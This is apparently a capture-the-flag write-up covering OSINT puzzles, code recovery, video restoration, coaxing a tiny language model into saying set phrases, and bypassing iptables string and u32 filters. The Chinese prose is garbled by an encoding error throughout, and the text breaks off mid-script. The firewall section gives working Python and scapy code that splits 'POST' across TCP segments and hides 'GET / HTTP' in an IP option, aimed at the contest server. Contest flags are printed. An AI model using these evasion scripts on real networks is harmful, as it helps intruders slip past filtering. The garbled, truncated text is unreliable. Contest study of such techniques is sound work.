东京国立åšç‰©é¦†

https://www.tnm.jp/modules/r_free_page/index.php?id=113#access_01


中å°å­¦ç”Ÿã€é«˜ä¸­ç”Ÿæˆ–未满18周å²ä»¥åŠæ»¡70周å²ä»¥ä¸Šè€…，å‡å¯å…è´¹å‚观综åˆæ–‡åŒ–展（常设展），入馆时请出示附有年龄的è¯ä»¶ï¼ˆå­¦ç”Ÿè¯ã€åŒ»ä¿å¡ã€é©¾é©¶è¯ç­‰ï¼‰

**0** 日元

> 这里其å®å¼€å§‹è¯•äº† 500 æ€ä¹ˆä¹Ÿä¸å¯¹ï¼Œè¯•äº† 1000 也ä¸å¯¹ï¼Œæœ€å输了个 0，过了

```
flag{PluM_w1NE_1S_rEa1LY_EXpen5iVE_3e2ca01289}
```


### 题目 5-6 å会有期，学长ï¼

> 5ã€å­¦é•¿å½“天晚上需è¦åœ¨å“ªæ ‹æ ‡å¿—性建筑物的附近集åˆå‘¢ï¼Ÿï¼ˆè¯·ç”¨ç®€ä½“中文å›ç­”，四个汉字）                                  
>
> 6ã€è¿›ç«™æ—¶ï¼Œä½ åœ¨ JR 上é‡ç«™ä¸­å¤®æ£€ç¥¨å£å¤–看到「ボタン＆カフリンクスã€æ´»åŠ¨æ­£åœ¨é”€å”®åŠ¨ç‰©å‘¨è¾¹å•†å“，该活动张贴的粉色背景海报上是什么动物（记作 A，两个汉字）？  在出站处附近建筑的屋顶广告牌上，æ¯å°æ—¶éƒ½ä¼šé¡½çš®å‡ºç°çš„é‚£åª 3D 动物是什么å“ç§ï¼Ÿï¼ˆè®°ä½œ B，三个汉字）？（格å¼ï¼šA-B）


当晚是有个 Banqiet 宴会 https://statphys28.org/program/0810.html

gallery https://statphys28.org/photogallery.html#06

[STATPHYS28 Banquet on “Yakatabune†Boat](https://statphys28.org/banquet.html)

船上宴会，真有æ„æ€


集åˆç‚¹åœ¨ Yasuda Auditorium，~~安田礼堂~~ **安田讲堂**

*翻译错了æ了åŠå¤©ä¸å¯¹ç„¶å怀疑人生了，è‰*


**第6问**

æœç´¢ JR ä¸Šé‡ ãƒœã‚¿ãƒ³ï¼†ã‚«ãƒ•ãƒªãƒ³ã‚¯ã‚¹

https://plaza.rakuten.co.jp/ayumilife/diary/202308110000/


**熊猫**

~~开往马里奥世界的电车 是说 日本ç¯çƒå½±åŸé©¬é‡Œå¥¥å›­åŒºï¼Ÿ~~

æœäº†ä¸‹å›¾ç‰‡ï¼Œåº”该在涩谷



广告牌

https://www.gotokyo.org/jp/new-and-now/new-and-trending/221121/topics.html


新宿有三花猫，涩谷有秋田犬，å¯çˆ±æï¼

so 这题就是 **熊猫-秋田犬**

```
flag{Un7I1_W3_M337_A64iN_6oODByE_S3n1OR_7f0fa2a99e}
```


## 惜字如金 2.0

甚至比å»å¹´çš„还简å•ï¼Œæ ¹æ® `flag` 对应的ä½ç½®ï¼Œäººå·¥æ¨ç†ä¸€ä¸‹å°±è¡Œäº†

æ¢å¤å的一ç§å¯èƒ½ä»£ç ï¼š

```python
#!/usr/bin/python3

# The size of the file may reduce after XZRJification

def check_equals(left, right):
    # check whether left == right or not
    if left != right: exit(1)

def get_code_dict():
    # prepare the code dict
    code_dict = []
    code_dict += ['nymeh1niwemflcir}echaete']
    code_dict += ['a3g7}kidgojernoetllsup?h']
    code_dict += ['ulw!ff5soadrhwnrsnstnoeq']
    code_dict += ['ctt{l-findiehaai{oveatas']
    code_dict += ['ty9kxborszstgguyd?!blm-p']
    check_equals(set(len(s) for s in code_dict), {24})
    return ''.join(code_dict)

def decrypt_data(input_codes):
    # retrieve the decrypted data
    code_dict = get_code_dict()
    output_chars = [code_dict[c] for c in input_codes]
    return ''.join(output_chars)

if __name__ == '__main__':
    # check some obvious things
    check_equals('create', 'cre' + 'ate')
    check_equals('referrer', 'refer' + 'rer')
    # check the flag
    flag = decrypt_data([53, 41, 85, 109, 75, 1, 33, 48, 77, 90,
                         17, 118, 36, 25, 13, 89, 90, 3, 63, 25,
                         31, 77, 27, 60, 3, 118, 24, 62, 54, 61,
                         25, 63, 77, 36, 5, 32, 60, 67, 113, 28])
    check_equals(flag.index('flag{'), 0)
    check_equals(flag.index('}'), len(flag) - 1)
    # print the flag
    print(flag)
```


`flag{you-ve-r3cover3d-7he-an5w3r-r1ght?}`

感觉特地选了那些影å“ä¸å¤§çš„ä½äº†ï¼ˆ


## 🪠高频ç‡æ˜Ÿçƒ

先装个 [asciinema](https://asciinema.org/) ，å‚考[使用文档](https://asciinema.org/docs/usage)，播放一下，然å干脆直æ¥å¯¼å‡ºè¾“出到文件

```bash
apt-get install asciinema
asciinema play asciinema_restore.rec
asciinema cat asciinema_restore.rec > output.txt
```

å‘ç°æ˜¯ less 了个 `flag.js`

```bash
stage % sha256sum flag.js
6bbbb91b7adc465fa086ec4ad453bca38beef9967800bf24d046a27b8cb70042  flag.js
stage % less flag.js
stage % echo "Execute flag.js with nodejs to get the flag"
Execute flag.js with nodejs to get the flag
stage % node flag.js
stage %
```

然å把多余的æ§åˆ¶å­—符给删了，比如下é¢è¿™ç§


然åç›´æ¥æ‹¿ NodeJS 执行好了

```bash
$ node flag.js
flag{y0u_cAn_ReSTorE_C0de_fr0m_asc11nema_3db2da106330xxxxxxxxxxxxxxxxxxxxxx}
```


## 🪠æµå¼æ˜Ÿçƒ

æºç ç»™çš„æ˜¯è¯»å– mp4 视频，éšæœºå»é™¤æ‹‰å¹³å的数组的最å的最多100个元素之å写入 bin 文件。

而视频的宽和高都ä¸æ˜¯10çš„å€æ•°

```python
assert frame_width % 10 != 0
assert frame_height % 10 != 0
```

[wikipedia：List of common resolutions](https://en.wikipedia.org/wiki/List_of_common_resolutions)

把里é¢æ‰€æœ‰çš„都试了试，å‘ç°æœ€å出æ¥çš„帧数都ä¸æ˜¯æ•´æ•°

åˆæƒ³äº†æƒ³ï¼Œè¿™ä¸ªæœ€å ravel 展平å的一维数组 buffer çš„é•¿åº¦åº”è¯¥æ˜¯ä¸”ä»…åŒ…å« 3ã€frame_countã€frame_heightã€frame_width 这四个因数

那就å˜æˆåˆ†è§£è´¨å› æ•°çš„问题上了，直æ¥å†™äº†ä¸ªè„šæœ¬å»è°ƒç”¨ http://factordb.com 好了

总字节数 total_bytes 的范围在 [135146688, 135146787]，å–其中被3整除的，然å除3，ä¾æ¬¡å»åˆ†è§£è´¨å› æ•°

```python

ss = [135146688, 135146691, 135146694, 135146697, 135146700, 135146703, 135146706, 135146709, 135146712, 135146715, 135146718, 135146721, 135146724, 135146727, 135146730, 135146733, 135146736,
      135146739, 135146742, 135146745, 135146748, 135146751, 135146754, 135146757, 135146760, 135146763, 135146766, 135146769, 135146772, 135146775, 135146778, 135146781, 135146784, 135146787]

# len(ss)
# 34

ll = []
for i in ss:
    ll.append(i//3)
print(ll)
# [45048896, 45048897, 45048898, 45048899, 45048900, 45048901, 45048902, 45048903, 45048904, 45048905, 45048906, 45048907, 45048908, 45048909, 45048910, 45048911, 45048912, 45048913, 45048914, 45048915, 45048916, 45048917, 45048918, 45048919, 45048920, 45048921, 45048922, 45048923, 45048924, 45048925, 45048926, 45048927, 45048928, 45048929]


def get_factor(d):
    headers = {
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
        'Accept-Language': 'zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2',
        'DNT': '1',
        'Connection': 'keep-alive',
        'Referer': 'http://factordb.com/index.php',
        'Upgrade-Insecure-Requests': '1'
    }

    params = {
        'query': str(d),
    }

    response = requests.get('http://factordb.com/index.php',
                            params=params, headers=headers)
    r_text = response.text
    result = re.findall(
        r'</a></td>\s<td><a href=\"index.php\?id=(\d+)\">.+ = (.+)</a></td>', r_text)[0][1]
    # print(result)
    result = result.replace('</font>', '').replace('</a>',
                                                   '').replace('&middot;', 'x')
    result2 = re.sub(r'<a href=.+?>', '', result)
    result2 = re.sub(r'<font color=".+?">', '', result2)
    print(f'{d} ==> {result2}')


for i in ll:
    get_factor(i)
```

得到

```
45048896 ==> 2^6 x 409 x 1721
45048897 ==> 3^2 x 5005433
45048898 ==> 2 x 22524449
45048899 ==> 7 x 223 x 28859
45048900 ==> 2^2 x 3 x 5^2 x 13 x 11551
45048901 ==> 45048901
45048902 ==> 2 x 193 x 116707
45048903 ==> 3 x 15016301
45048904 ==> 2^3 x 23 x 103 x 2377
45048905 ==> 5 x 11^2 x 19 x 3919
45048906 ==> 2 x 3^3 x 7 x 37 x 3221
45048907 ==> 43 x 1047649
45048908 ==> 2^2 x 11262227
45048909 ==> 3 x 181 x 82963
45048910 ==> 2 x 5 x 4504891
45048911 ==> 45048911
45048912 ==> 2^4 x 3 x 17 x 55207
45048913 ==> 7 x 13 x 495043
45048914 ==> 2 x 41 x 83 x 6619
45048915 ==> 3^2 x 5 x 1001087
45048916 ==> 2^2 x 11 x 1023839
45048917 ==> 761 x 59197
45048918 ==> 2 x 3 x 167 x 44959
45048919 ==> 29 x 59 x 113 x 233
45048920 ==> 2^3 x 5 x 7 x 349 x 461
45048921 ==> 3 x 31 x 484397
45048922 ==> 2 x 211 x 106751
45048923 ==> 389 x 115807
45048924 ==> 2^2 x 3^2 x 19 x 67 x 983
45048925 ==> 5^2 x 241 x 7477
45048926 ==> 2 x 13 x 107 x 16193
45048927 ==> 3 x 7 x 11 x 23 x 61 x 139
45048928 ==> 2^5 x 347 x 4057
45048929 ==> 17 x 101 x 26237
```

需è¦åŒ…å«è‡³å°‘3个因数，而且是比较åˆç†çš„，宽高比比较正常的

然å试了è€åŠå¤©ï¼Œä¸å¯¹çš„è¯åƒè¿™æ ·


脑阔疼，å‘ç°è¿˜æ˜¯å¤ªå¤šäº†ï¼Œè€Œä¸”有巨大多ç§å¯èƒ½çš„组åˆï¼Œæ€»ä¸èƒ½å…¨éƒ¨éƒ½è¯•ä¸€éå§ï¼ˆè™½ç„¶ä¹Ÿä¸æ˜¯ä¸è¡Œã€‚。

还是先直æ¥çœ‹ç¬¬ä¸€å¸§å§

手工试了下 640 * 180，éšçº¦èƒ½çœ‹åˆ°æ˜¯ä¸ª B站的视频，up 主是 [MyGO_official](https://space.bilibili.com/489742387)


手工爆破宽高，代ç åœ¨åé¢

1281*760 的时候正好宽度是3个画é¢ï¼Œé«˜åº¦ä¹Ÿæ˜¯3个


那宽度就是 1281/3 = 427，然åå†çˆ†ç ´é«˜åº¦ï¼Œå¾—到大概手动å°è¯•å‘ç°æ˜¯ 761 附近

然åä¸ç®¡äº†ï¼Œç›´æ¥å¡«å……空白帧之å导出视频看看完事了，摆烂（

```python
import cv2
import numpy as np

def restore_video(input_file, output_file, frame_width, frame_height):
    # ä»äºŒè¿›åˆ¶æ–‡ä»¶è¯»å–æ•°æ®
    buffer = np.fromfile(input_file, dtype=np.uint8)
    
    # 将数æ®é‡æ–°å˜å½¢æˆè§†é¢‘帧
    frame_count = len(buffer) // (frame_width * frame_height * 3) + 1
    left = frame_count * frame_width * frame_height * 3 - len(buffer)
    print(left)
    temp_buffer = np.pad(buffer, (0, left), 'constant', constant_values=0)
    temp_buffer = temp_buffer.reshape((frame_count, frame_height, frame_width, 3))

    # 创建一个VideoWriteræ¥ä¿å­˜è§†é¢‘
    fourcc = cv2.VideoWriter_fourcc(*'XVID')  # 视频编解ç å™¨
    out = cv2.VideoWriter(output_file, fourcc, 30, (frame_width, frame_height))

    # é€å¸§å†™å…¥è§†é¢‘文件
    for i in range(frame_count):
        frame = temp_buffer[i]
        out.write(frame)

    # 释放资æº
    out.release()


def display_first_frame(input_file, potential_resolutions):
    buffer = np.fromfile(input_file, dtype=np.uint8)
    # print(buffer.size)
    # 135146688
    for width, height in potential_resolutions:
        # for width_new in range(width - 50, width + 50):
        # for height_new in range(height, height + 50):
            # print(height_new)
            frame_size = width * height * 3
            frame_data = buffer[-2*frame_size:-frame_size]
            
            if len(frame_data) == frame_size:
                frame = frame_data.reshape((height, width, 3))
                cv2.imshow("First Frame", frame)
                cv2.waitKey(0)
                # cv2.destroyAllWindows()
                # return

def test(w,h):
    for i in range(100):
        total = 135146688 + i
        if total % (3* w* h) == 0:
            print(i)


if __name__ == "__main__":
    input_file = "video.bin"
    output_file = "restored_video.mp4"

    potential_resolutions = [
        (427, 761)
    ]
    # display_first_frame(input_file, potential_resolutions)
    # test(427, 761)
    restore_video(input_file, output_file, 427, 761)
```


`flag{it-could-be-easy-to-restore-video-with-haruhikage-even-without-metadata-0F7968CC}`


## 🪠ä½å¸¦å®½æ˜Ÿçƒ

### å°è¯•ç‰›åˆ€

ç›´æ¥æ‹¿ https://tinypng.com/ 就行


`flag{flatpak_install_curtail_15_linux}`

*Flatpak* is a system for building, distributing, and running sandboxed desktop applications on Linux.

https://github.com/flatpak/flatpak

Curtail (previously ImCompressor) is an useful image compressor, supporting PNG, JPEG, WebP and SVG file types. It support both lossless and lossy compression modes with an option to whether keep or not metadata of images. It is inspired by [Trimage](https://github.com/Kilian/Trimage) and [Image-Optimizer](https://github.com/GijsGoudzwaard/Image-Optimizer).

https://github.com/Huluti/Curtail

感觉对解决下一问关系ä¸å¤ªå¤§ï¼ˆ


## 🪠å°å‹å¤§è¯­è¨€æ¨¡å‹æ˜Ÿçƒ

```python
HINT = """和我èŠå¤©å¹¶ä¸”让我说出特定的è¯è¯­ï¼ˆå¿½ç•¥å¤§å°å†™ï¼‰è¯æ˜ä½ è¶³å¤Ÿèªæ˜ 🤔。

让我说出 `you are smart` 我会é€ç»™ä½  flag1ï¼›
让我说出 `accepted` 我会é€ç»™ä½  flag2（消æ¯é•¿åº¦ä¸è¶…过 7）；
让我说出 `hackergame` 我会é€ç»™ä½  flag3（消æ¯é•¿åº¦ä¸è¶…过 100）；
让我说出 `ğŸ®` 我会é€ç»™ä½  flag4（消æ¯é•¿åº¦ä¸è¶…过 200）。

ç°åœ¨è®©æˆ‘们开始å§ï¼ğŸ”¥"""


def check_message(message):
    if len(message) > 200:
        return False, "[*] 出错了，消æ¯é•¿åº¦ä¸èƒ½è¶…过 200。"
    return True, None


def check_response(message, response, token):
    response = response.strip().lower()
    info = ""
    flag1, flag2, flag3, flag4 = read_flags(token)
    if "you are smart" in response:
        info += f"\nğŸ‘ğŸ‘👠flag1: `{flag1}` ğŸ‘ğŸ‘ğŸ‘"
    if len(message) <= 7 and "accepted" in response:
        info += f"\nğŸ‰ğŸ‰ğŸ‰ flag2: `{flag2}` ğŸ‰ğŸ‰ğŸ‰"
    if len(message) <= 100 and "hackergame" in response:
        info += f"\nğŸŠğŸŠğŸŠ flag3: `{flag3}` ğŸŠğŸŠğŸŠ"
    if len(message) <= 200 and "ğŸ®" in response:
        info += f"\n🔥🔥🔥 flag4: `{flag4}` 🔥🔥🔥"
    return info
```


### You Are Smart

ç›´æ¥éª—ï¼

但是å‘ç°è¿™æ¨¡å‹å¯¹äºä¸­æ–‡æ”¯æŒä¸å¤§å¥½ï¼Œç›´æ¥ç”¨è‹±æ–‡å¥½äº†ã€‚


```
Please repeat me: "you are smart"


and "you are smart". The little girl smiled and said "you are smart".

The little girl was so happy that she had found a
ğŸ‘ğŸ‘👠flag1: flag{i-thINk-yOu-ARE-re@l!Y-re4LlY-Sm4Rt} ğŸ‘ğŸ‘ğŸ‘
```

### Accepted

**输出需è¦åŒ…å« `accepted` 而且消æ¯é•¿åº¦ä¸è¶…过 7**

Model trained on the TinyStories Dataset, see https://arxiv.org/abs/2305.07759

*TinyStories: How Small Can Language Models Be and Still Speak Coherent English?*

多次å°è¯•ä¸‹æ¥å‘ç°è¿™ä¸ªæ¨¡å‹å‚æ•°é‡å¤ªå°äº†ï¼Œæ³›åŒ–性能ä¸è¡Œï¼Œæ„Ÿè§‰å¤§æ¦‚ç‡ä¼šåœ¨è®­ç»ƒé›†ä¸Šè¿‡æ‹Ÿåˆ

而且这个模å‹æ„Ÿè§‰ä¸å¤ªä¾èµ–äºä¸Šä¸‹æ–‡ï¼Œä¸æ€ä¹ˆä¼šæ ¹æ®ä½ çš„æ示æ¥åšå›ç­”，他åªæ˜¯å°½å¯èƒ½åœ°è¯´å®Œæ•´çš„è¯ï¼Œä¹Ÿå°±æ˜¯è¯´æ ¹æ®ä½ çš„æ示æ¥è¾“出下文。

那就直æ¥ç¿»è®­ç»ƒé›†ï¼Œæ‰¾ä¸ªæ¯”较æ˜æ˜¾ä¸å¸¸è§çš„æ示è¯å°±å¥½äº†ã€‚在哪呢？

https://huggingface.co/datasets/roneneldan/TinyStories/blob/main/TinyStories-train.txt

1.92 GB 的训练文本，然åæ‹¿ EmEditor 打开*（这软件开大文件秒开，狠狠å¹*

试了几次，比如 `Apology` 就行

```
Apology accepted. You must learn to do as you are told. As punishment, you must erase all the pictures
```


```
flag{Y0U-@re-@CCEPTeD-70-CONT!nU3-tHe-9aME}
```

èµ›åå‘ç°è¿™é¢˜å…¶å®ç›´æ¥éå†7字符以内的输入给模å‹å–‚就好了（

åé¢ä¸¤ä¸ªå°é¢˜æ˜¯è®­ç»ƒé›†é‡Œæ²¡æœ‰çš„ä¸œè¥¿ï¼Œæ„Ÿè§‰éœ€è¦ fuzz æ¥é€ ï¼Œæˆ–者输入一些奇妙的 bytes，毕竟是æ¥æ”¶ä»»æ„ byte æ¥è¾“出的

- [Summary of the tokenizers](https://huggingface.co/docs/transformers/tokenizer_summary)

- [Byte-Pair Encoding tokenization](https://huggingface.co/learn/nlp-course/chapter6/5) 

  Byte-Pair Encoding (BPE) was initially developed as an algorithm to  compress texts, and then used by OpenAI for tokenization when  pretraining the GPT model. It’s used by a lot of Transformer models,  including GPT, GPT-2, RoBERTa, BART, and DeBERTa.


## Komm, süsser Flagge

**切割ï¼** ~~Z佬ï¼~~

### 我的 POST

```bash
-A myTCP-1 -p tcp -m string --algo bm --string "POST" -j REJECT --reject-with tcp-reset
```

ç›´æ¥é—® chatgpt

> 这是一个使用`iptables`的规则，用äºæ£€æµ‹å’Œæ‹¦æˆªTCPæ•°æ®åŒ…中包å«"POST"字符串的数æ®åŒ…。这æ¡è§„则会使用Boyer-Mooreæœç´¢ç®—法(`--algo bm`)æ¥æŸ¥æ‰¾å­—符串，并当找到该字符串时拒ç»è¯¥æ•°æ®åŒ…，并å‘é€ä¸€ä¸ªTCP RST包(`--reject-with tcp-reset`)æ¥ä¸­æ–­è¿æ¥ã€‚这里是规则的解读：
>
> - `-A myTCP-1`: 将此规则添加到å为"myTCP-1"的链中。
> - `-p tcp`: 仅匹é…TCPå议的数æ®åŒ…。
> - `-m string`: 使用string模å—æ¥è¿›è¡Œå†…容检测。
> - `--algo bm`: 使用Boyer-Mooreæœç´¢ç®—法。
> - `--string "POST"`: æœç´¢"POST"这个字符串。
> - `-j REJECT`: 当匹é…时，执行拒ç»æ“作。
> - `--reject-with tcp-reset`: 使用TCP RSTæ¥æ‹’ç»ã€‚

æ˜æ–‡åŒ¹é… "POST" 字符串，åªéœ€è¦å°†è¿™ä¸ªå­—符串切割到ä¸åŒæ®µ TCP æ•°æ®åŒ…里就好了。

使用Pythonçš„`socket`库，我们å¯ä»¥æ¨¡æ‹Ÿå°†"POST"字符串分割到两个ä¸åŒçš„TCPæ•°æ®åŒ…中，然å打å°æœåŠ¡å™¨çš„å“应。

```python
import socket

def send_split_post_request(host, port):
    # 创建一个TCP/IP套æ¥å­—
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    # è¿æ¥åˆ°æœåŠ¡å™¨
    s.connect((host, port))
    
    # 第一部分数æ®ï¼ŒåªåŒ…å«"POS"
    request_part1 = "POS"
    s.sendall(request_part1.encode())
    
    # 第二部分数æ®ï¼ŒåŒ…å«"T"和一个简å•çš„HTTP请求的其余部分
    request_part2 = """T / HTTP/1.1
Host: {}
Content-Type: application/x-www-form-urlencoded
Connection: close
Content-Length: 100

114514:asdfgh==
""".format(host)  # 使用Connection: closeç¡®ä¿æœåŠ¡å™¨åœ¨å‘é€å“应å关闭è¿æ¥
    s.sendall(request_part2.encode())
    
    # æ¥æ”¶æ•°æ®
    buffer_size = 4096
    response = b''
    while True:
        data = s.recv(buffer_size)
        if not data:
            break
        response += data
    
    # 关闭套æ¥å­—
    s.close()
    return response.decode()

# 使用函数
host = "202.38.93.111"
port = 18080
response = send_split_post_request(host, port)
print(response)
```


### 我的 P

```bash
-A myTCP-2 -p tcp -m u32 --u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50" -j REJECT --reject-with tcp-reset
```

继续问 chatgpt

> 1. `-A myTCP-2`: 这部分表示将规则附加到å为"myTCP-2"的链 (Chain)，这个链通常是用户自定义的，å¯ä»¥æ ¹æ®éœ€è¦åˆ›å»ºã€‚规则将应用äºè¯¥é“¾ä¸­çš„æ•°æ®åŒ…。
>
> 2. `-p tcp`: 这部分指定了规则适用äºTCPå议的数æ®åŒ…。åªæœ‰TCPæ•°æ®åŒ…å°†å—到这个规则的影å“。
>
> 3. `-m u32`: `-m`标志用äºåŠ è½½å†…核模å—，以便使用特定的匹é…扩展。在这ç§æƒ…况下，使用了`u32`扩展，该扩展å…许你创建å¤æ‚的匹é…规则。
>
> 4. `--u32 "0 >> 22 & 0x3C @ 12 >> 26 @ 0 >> 24 = 0x50"`: 这是`u32`扩展的匹é…规则。这个规则é常å¤æ‚，它å®é™…上是用äºåŒ¹é…特定的TCPæ•°æ®åŒ…头字段ä½æ¨¡å¼ã€‚让我拆解这个规则：
>
>    - `0 >> 22 & 0x3C`：这部分规则表示ä»å移é‡0（数æ®åŒ…的起始ä½ç½®ï¼‰å¼€å§‹ï¼Œå‘å³ç§»åŠ¨22ä½ï¼Œç„¶åå’Œå六进制值0x3C（二进制形å¼ä¸º00111100）进行按ä½ä¸æ“作。这个æ“作的目的是匹é…TCP头的一部分ä½ã€‚
>
>    - `@ 12 >> 26`：æ¥ä¸‹æ¥ï¼Œä»å移é‡12开始，å‘å³ç§»åŠ¨26ä½ã€‚这个部分是在TCP头中的å¦ä¸€ä¸ªä½ç½®ã€‚
>
>    - `@ 0 >> 24`：最å，ä»å移é‡0开始，å‘å³ç§»åŠ¨24ä½ã€‚
>
>    - `= 0x50`：最å，规则è¦æ±‚上述三个部分的结æœå¿…须等äºå六进制值0x50（二进制形å¼ä¸º01010000）。（å进制80）
>
>    总的æ¥è¯´ï¼Œè¿™ä¸ªåŒ¹é…规则是相当å¤æ‚的，它è¦æ±‚TCPæ•°æ®åŒ…的特定ä½å¿…须匹é…特定的二进制模å¼ã€‚
>
> 5. `-j REJECT --reject-with tcp-reset`: 这部分指定了如æœæ•°æ®åŒ…匹é…å‰é¢çš„规则，将如何处ç†åŒ¹é…çš„æ•°æ®åŒ…。在这ç§æƒ…况下，数æ®åŒ…将被拒ç»ï¼ˆREJECT）并且用TCPå¤ä½ï¼ˆRST）å“应（--reject-with tcp-reset）。这会导致TCPè¿æ¥è¢«ä¸­æ–­ï¼Œå¹¶ä¸”通信将ä¸ä¼šç»§ç»­ã€‚

å‚考 [我所ç†è§£çš„ iptables u32 匹é…](https://imlonghao.com/30.html)

[简å•çš„益智类å°æ¸¸æˆ: iptables u32过滤器，强大且好ç©](https://zhuanlan.zhihu.com/p/584722105)

http://www.stearns.org/doc/iptables-u32.current.html

> **u32 基础**
>
> ```
> iptables -m u32 --u32 "Start&Mask=Range"
> ```
>
> 上é¢å°±æ˜¯ä¸€ä¸ª u32 简å•çš„语法，其中：
>
> `Start` 表示开始å–值的ä½ç½® / 字节
>
> `Mask` 表示æ©ç 
>
> `Range` 表示匹é…的范围，å¯ä»¥æ˜¯ä¸€ä¸ªä½¿ç”¨ `:` 分割开的区间，也å¯ä»¥åªæ˜¯ä¸€ä¸ªæ•°
>
> 如æœæˆ‘们需è¦åŒæ—¶æ£€æŸ¥å¤šä¸ªè§„则，规则之间å¯ä»¥é€šè¿‡ `&&` 隔开
>
> å°æŠ€å·§ï¼šé€šå¸¸æˆ‘们å¯ä»¥é€šè¿‡(我们想è¦çš„字节的末ä½ä½ç½®)å‡å» 3 的方法æ¥å¾—到我们开始å–值的ä½ç½®
>
> **u32 æ“作符**
>
> 在上é¢çš„基础中，我们已ç»ä½¿ç”¨åˆ°äº†ä¸€ä¸ªæ“作符 `&` ，此外，总共有四个æ“作符å¯ä¾›ä½¿ç”¨ã€‚
>
> `&` 按ä½ä¸æ“作符：过滤出我们需è¦çš„四个字节（最多），或者åªè¦å…¶ä¸­ä¸€ä¸ªå­—节
>
> `<<` 左移æ“作符： 把æ“作数的å„二进ä½å…¨éƒ¨å·¦ç§»è‹¥å¹²ä½ï¼Œé«˜ä½ä¸¢å¼ƒï¼Œä½ä½è¡¥ 0
>
> `>>` å³ç§»æ“作符：把æ“作数的å„二进ä½å…¨éƒ¨å³ç§»è‹¥å¹²ä½ï¼Œä½ä½ä¸¢å¼ƒï¼Œé«˜ä½è¡¥ 0（或 1）
>
> `@` å‘å‰æ¨è¿›æ“作符：å‘å‰æ¨è¿›è‹¥å¹²çš„字节数

`0>>22&0x3C@` 就是得到 IP 头长度（长度å•ä½æ˜¯ 4bytes，所以是 >> 24 << 2 = >>22，乘以4也就是左移2ä½ï¼‰ï¼Œç„¶å用 `@` è¿ç®—符直æ¥æ¨è¿›åˆ° TCP 头

而 `12 >> 26 @` 则æå–了 TCP 头的长度，然å跳过 TCP 的部分到达数æ®åŒº

`0 >> 24` 也就是å–æ•°æ®çš„最高8bits，也就是第一个 byte，看是ä¸æ˜¯ 0x50 å³å­—æ¯ `P`


当然喵喵这里是é预期了，åŒæ ·ç”¨ä¸Šé¢çš„拆分脚本就行


感觉预期解法是**å转字节**？（ä¸å¤§æ‡‚

抓包ç„了眼 


åæ¥åˆç ”究了一下，这里应该是因为æå– TCP 头的长度这里没有 `&0x3C`，而åé¢æœ€ä½ä½çš„ 2bits 是ä¿ç•™ä½ reserved


预期解应该就是直æ¥æ„造一个将这ä¿ç•™ä½èµ‹å€¼çš„ payload，也就是将ä¿ç•™ä½å转，让其算错 TCP 首部的长度越过更大的范围ä»è€ŒåŒ¹é…失败，最终å®ç°ç»•è¿‡

而拆分包能过的åŸå› åº”该是 u32 æ¯æ¬¡è¯»å– 4bytes，而 tcp data 长度ä¸å¤Ÿ out of bound 了，äºæ˜¯åŒ¹é…失败了（？


### 我的 GET

```bash
-A myTCP-3 -p tcp -m string --algo bm --from 0 --to 50 --string "GET / HTTP" -j ACCEPT
-A myTCP-3 -p tcp -j REJECT --reject-with tcp-reset
```

å‘ç°åœ¨ TCP 建立è¿æ¥ï¼Œå®¢æˆ·ç«¯å‘ SYN 包的时候就被 RST 了，然å进行 TCP é‡ä¼ 


唔，三次æ¡æ‰‹ä¸èƒ½ä¸¢å§ï¼Ÿè¯•äº†è¯•ç›´æ¥æ„造 `GET /` TCP SYN 包，确å®ä¸è¡Œã€‚

é‚£è¦åœ¨0-50范围内包å«è¿™ä¸ªå­—符串，IP 头都至少20bytes了，那肯定是在 IP 头/ TCP 头里åšæ–‡ç« 

å†å›é¡¾ä¸Šé¢ http://www.stearns.org/doc/iptables-u32.current.html 这篇文章


IP 头有个 IP options 字段，长度是å¯å˜çš„，那大概ç‡å°±æŠŠ `GET / HTTP` payload 扔这里é¢äº†ã€‚

ä¸è¿‡è¦æ³¨æ„一个问题，这ç§å¥‡æ€ªçš„ IP 头å¯èƒ½ä¼šè¢«ä¸­é—´çš„路由器给丢包了，~~所以主åŠæ–¹æ供的 OpenVPN å¯èƒ½å°±æ´¾ä¸Šç”¨åœºäº†ï¼ˆå—？~~ å正最å还是直æ¥æ¢ä¸ªç½‘络试直æ¥æ‰“公网了

这里åå¤æ•´äº†å‡ å¤©ï¼Œæ„造起æ¥æŒºçµè½¦çš„，最开始想用 scapy 库，åæ¥æ„Ÿè§‰ä¸å¯¹åŠ²ï¼Œæ¢ raw socket æ¥å†™å‘ç°ä¹Ÿä¸å¯¹åŠ²ï¼Œæœ€å还是æ¢å› scapy 手动æ„造三次æ¡æ‰‹ï¼Œä½†æ˜¯è¿˜ä¸å¯¹åŠ²ã€‚最åç›´æ¥æ‰“公网算了，æˆäº†ã€‚

å‚考 [RFC791 Internet Protocol Specification](https://www.rfc-editor.org/rfc/rfc791) 


比如错误æ„造的一个包：


第一个 byte çš„è¯ç¬¬1bit 是å¦å¤åˆ¶åˆ°å„个分段，2bits ç±»å‹ï¼Œå‰©ä¸‹ 5bits 是 number

第二个 byte 一般是 length（除了 End of Option List 0x00ã€No Operation 0x01 è¿™ç§åªæœ‰ç¬¬ä¸€ä¸ª byte）

喵喵这里æ„造的è¯ç›´æ¥å–ä¿ç•™ç±»å‹äº†ï¼Œåé¢ number éšä¾¿å¡«ä¸€ä¸ªï¼Œ0b1 11 00010 -> 0xE2

需è¦æ³¨æ„的是这个 length 是包å«å‰é¢ 2bytes æ§åˆ¶ flag 的，如æœä¸å¯¹çš„è¯ä¼šå›å¤ä¸€ä¸ª ICMP æ示你长度错了


Exp，用 scapy 手动æ„造三次æ¡æ‰‹ï¼ŒæŒ‡å®šè‡ªå®šä¹‰ IP option

æ„Ÿè°¢ ChatGPT å‚ä¸ä»£ç ç¼–写（

```python
from scapy.all import *
from scapy.layers.inet import IP, TCP

# æ„建自定义选项的内容
# 以下是æ„建一个简å•çš„NOP（无æ“作）选项作为示例
# IP选项通常以类å‹å¼€å§‹ï¼Œæ¥ç€æ˜¯é•¿åº¦ï¼Œç„¶å是数æ®
custom_option = b'\xE2\x0CGET / HTTP'

# 使用Rawç±»å°è£…自定义选项的内容
custom_ip_option = Raw(load=custom_option)

# 目标主机和端å£
